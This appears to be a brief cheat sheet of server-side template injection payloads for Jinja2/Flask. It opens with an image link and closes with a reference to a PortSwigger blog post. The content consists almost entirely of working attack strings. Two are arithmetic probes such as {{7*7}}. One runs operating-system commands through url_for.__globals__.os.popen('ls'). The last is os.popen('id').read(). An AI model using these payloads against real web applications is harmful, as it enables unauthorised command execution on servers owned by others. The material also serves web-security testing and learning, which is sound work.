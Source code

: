 

´´´´
{{7*7}}
{{333*2}}
{{url_for.__globals__.os.popen('ls').read()}}
´´´´

´´´´
os.popen('id').read()
´´´´





#Refs:

- https://portswigger.net/blog/server-side-template-injection
